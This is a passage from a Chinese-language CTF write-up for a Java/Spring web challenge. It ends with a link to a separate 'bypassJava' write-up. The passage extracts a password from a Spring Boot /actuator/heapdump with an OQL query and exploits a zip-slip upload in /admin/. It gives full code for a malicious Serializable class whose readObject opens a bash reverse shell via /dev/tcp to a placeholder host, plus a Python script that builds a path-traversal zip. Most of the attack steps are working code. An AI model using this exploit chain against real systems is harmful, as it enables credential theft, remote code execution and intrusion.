访问/actuator/heapdump，下载 heapdump 后使用 visualVM 等工具进行分析，以 visualVM 为例，使用 OQL 语句查找 spring.security.user.password

```
select s from java.util.LinkedHashMap$Entry s where /spring.security.user.password/.test(s.key)
```

在查询结果中，可以找到真正的密码


3.进入/admin/，文件上传接口存在 zipslip 任意文件上传漏洞，结合之前泄露的 env 中的 javahome 路径，可以想到构造恶意类后上传至 jre/classes 目录

在源码中发现/admin/下存在反序列化入口，所以可以构造一个 readObject 中含恶意代码的类

```java
import java.io.*;


public class Evil implements Serializable {

    private  void readObject(ObjectInputStream in) throws InterruptedException, IOException, ClassNotFoundException {

        in.defaultReadObject();

        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/x.x.x.x/x 0>&1"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));
        p.waitFor();
        if(p.exitValue()!=0){
        }
        String s = null;
        while((s=reader.readLine())!=null){
            System.out.println(s);
        }

    }
}
```

编译为 class 文件，通过脚本构造 zip

```python
import zipfile

zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)
info = zipfile.ZipInfo("poc.zip")
zipFile.write("./Evil.class", "../../../usr/lib/jvm/java-8-openjdk-amd64/jre/classes/Evil.class", zipfile.ZIP_DEFLATED)
zipFile.close()
```

上传成功后，本地构造 base64，通过反序列化入口反弹 shell


在根目录下读 flag 文件即可

### bypassJava

详情见 [https://pankas.top/2023/10/22/dasctfxcbctf-2023-bypassjava-wp/](https://pankas.top/2023/10/22/dasctfxcbctf-2023-bypassjava-wp/)
